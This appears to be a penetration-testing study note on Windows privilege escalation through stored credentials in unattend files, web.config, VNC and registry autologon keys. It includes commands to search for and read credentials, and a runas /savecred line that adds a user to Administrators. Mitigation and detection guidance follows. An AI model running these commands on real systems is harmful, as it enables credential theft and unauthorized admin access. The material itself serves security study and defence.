

# 17 - Stored Credentials Files

## Overview

One of the most common and arguably simplest forms of local privilege escalation on Windows environments is the discovery of stored credentials in files. System administrators, developers, and automated deployment scripts frequently leave behind sensitive information in plaintext or weakly obfuscated formats. Finding these files is often referred to as "hunting for low-hanging fruit," but the impact is devastating, frequently leading straight to `SYSTEM` or Domain Admin access depending on the context of the discovered credentials.

When deploying servers at scale, administrators use automated deployment tools and unattended installation files to pre-configure the operating system. If these files are not properly sanitized post-deployment, they retain the local administrator passwords. Furthermore, application configuration files, database connection strings, custom administrative scripts, and legacy backup files are treasure troves for an attacker.

## The Architecture of Misplaced Credentials



## Deep Dive: Where to Look

### Unattended Installation Files
Windows uses Answer Files (Unattend.xml) to automate the configuration of a Windows operating system during installation. These files contain configuration settings, including network configurations, software to install, and critically, user accounts and passwords. 

During the installation process, Windows caches these files in specific directories. While modern Windows versions attempt to sanitize the password fields by removing them after installation, edge cases, failed cleanups, or manual copies often leave them intact.

Common locations for Unattended files:
- `C:\Unattend.xml`
- `C:\Windows\Panther\Unattend.xml`
- `C:\Windows\Panther\Unattend\Unattend.xml`
- `C:\Windows\system32\sysprep.inf`
- `C:\Windows\system32\sysprep\sysprep.xml`

A typical `Unattend.xml` containing credentials looks like this:
```xml
<UserAccounts>
    <LocalAccounts>
        <LocalAccount wcm:action="add">
            <Password>
                <Value>UEBzc3dvcmQxMjMhUGFzc3dvcmQ=</Value>
                <PlainText>false</PlainText>
            </Password>
            <Description>Local Administrator</Description>
            <DisplayName>Administrator</DisplayName>
            <Group>Administrators</Group>
            <Name>Administrator</Name>
        </LocalAccount>
    </LocalAccounts>
</UserAccounts>
```
If `<PlainText>` is `false`, the `<Value>` is usually Base64 encoded. A simple Base64 decode will reveal the plaintext password.

### IIS Configuration Files
Internet Information Services (IIS) often stores application settings, including database connection strings, in `web.config` files. If the application connects to a backend database or another service, the credentials might be stored here.
- `C:\inetpub\wwwroot\web.config`
- `C:\Windows\System32\inetsrv\config\applicationHost.config`

### Third-Party Applications
Applications like PuTTY, WinSCP, FileZilla, and VNC save session configurations, which sometimes include passwords or private keys.
- **PuTTY**: Sessions are often stored in the registry, but SSH keys might be dropped in user directories.
- **WinSCP**: Can store passwords in `WinSCP.ini`.
- **VNC**: Passwords are often stored in the registry or in `vnc.ini`. They are encrypted but the encryption is reversible (e.g., using `vncpwd`).

### Custom Scripts and Text Files
Admins frequently write batch scripts (`.bat`), PowerShell scripts (`.ps1`), or VBScript (`.vbs`) to automate tasks like mapping network drives, taking backups, or restarting services. These scripts often hardcode credentials.
- `C:\Scripts\`
- `C:\Users\Administrator\Desktop\`
- `C:\Users\Public\`

## Exploitation Scenarios and Methodologies

### 1. Searching for Files Manually via CMD
You can use the built-in `findstr` command to search for the word "password" across the file system. Be careful, as this can be noisy and slow on large drives.

```cmd
:: Search specific directories for unattended files
dir /s /b /a "C:\Windows\Panther\*.xml"
dir /s /b /a "C:\Windows\Panther\*.inf"

:: Broad search for password in txt, ini, or xml files
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini

:: Find files by name
dir /s /b /a "*pass*"
dir /s /b /a "*cred*"
dir /s /b /a "*vnc*"
dir /s /b /a "*.config"
```

### 2. Searching via PowerShell
PowerShell provides more robust parsing capabilities. 

```powershell
# Recursively search for Unattend files
Get-ChildItem -Path C:\ -Include *unattend*, *sysprep* -File -Recurse -ErrorAction SilentlyContinue

# Search for the string "password" inside specific extensions
Get-ChildItem C:\ -Recurse -Include *.txt, *.xml, *.ini, *.config, *.bat, *.ps1 -ErrorAction SilentlyContinue | Select-String -Pattern "password"
```

### 3. Exploiting Saved Windows Credentials (cmdkey)
Sometimes credentials are saved in the Windows Credential Manager. You can list them using `cmdkey`.
```cmd
cmdkey /list
```
If you see saved credentials (e.g., `Target: Domain:interactive=WORKGROUP\Administrator`), you can abuse them by using `runas` with the `/savecred` flag. This allows you to execute commands as the user without knowing the password.

```cmd
runas /savecred /user:WORKGROUP\Administrator "cmd.exe /c net localgroup administrators lowprivuser /add"
```

### 4. Reversing VNC Passwords
If you find a VNC password hash in the registry or an ini file, it uses a known, hardcoded DES key for encryption.
```cmd
reg query "HKCU\Software\ORL\WinVNC3\Password"
```
Once the hex value is retrieved, tools like `vncpwd` or online decryptors can instantly translate it back to plaintext.

## Advanced Techniques: Registry Reconnaissance

Credentials are not strictly limited to flat files; the Windows Registry is effectively a giant database of files and configurations.
Autologon is a feature that allows Windows to automatically log in a specific user upon booting. This requires the password to be stored in the registry.

```cmd
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AutoAdminLogon
```
If `AutoAdminLogon` is set to `1` and the `DefaultPassword` key exists, the plaintext password will be visible to anyone with read access to that registry node.

## Defensive Strategies & Mitigation

1. **Strict File Permissions**: Ensure that any scripts, configuration files, or logs containing sensitive information have restrictive Discretionary Access Control Lists (DACLs). Only the SYSTEM or specific administrative service accounts should have read access.
2. **Sanitize Deployment Images**: Ensure that Unattend.xml and Sysprep.inf files are securely deleted using tools like `sdelete` after the OS provisioning process completes.
3. **Use LAPS**: Implement Local Administrator Password Solution (LAPS) to manage local admin passwords rather than hardcoding them into deployment scripts.
4. **Secrets Management**: Developers should use secure vault solutions (e.g., Azure Key Vault, HashiCorp Vault, AWS Secrets Manager) instead of placing connection strings in `web.config` or `appsettings.json`.
5. **Auditing Credential Manager**: Regularly audit endpoints for saved credentials using `cmdkey`. Disable the ability for users to save credentials permanently if it violates security policy.
6. **Registry Hardening**: Ensure that the `Winlogon` registry keys do not contain plaintext passwords. Use secure autologon mechanisms if absolutely necessary, but preferably disable autologon.

## Detection and Logging

Detecting an attacker searching for stored credentials can be challenging because `dir`, `findstr`, and `Get-ChildItem` are legitimate administrative tools.
- **Event ID 4688 (Process Creation)**: Monitor for excessive use of `findstr.exe` combined with arguments like `password`, `cred`, or `.xml`.
- **PowerShell Script Block Logging (Event ID 4104)**: Look for cmdlets like `Select-String` paired with regular expressions targeting credential formats.
- **Honeypots**: Place fake `unattend.xml` or `passwords.txt` files in common locations. If these files are accessed (Event ID 4663 - File System Object Access), trigger a high-severity alert.

## Chaining Opportunities

- **[[19 - DPAPI]]**: If you find user credentials, you can unlock that user's DPAPI master key, leading to the decryption of Chrome passwords, saved RDP sessions, and more.
- **[[20 - Pass the Hash on Local Admin]]**: If the file contains an NTLM hash rather than plaintext, you can immediately pass the hash to gain code execution.
- **[[22 - LAPS]]**: If deployment files are clean but you have local admin, you can analyze how LAPS is implemented or potentially extract the LAPS password from memory.

## Related Notes
- [[18 - PowerShell History File]]
- [[21 - Password in GPP]]
- [[28 - Token Impersonation]]
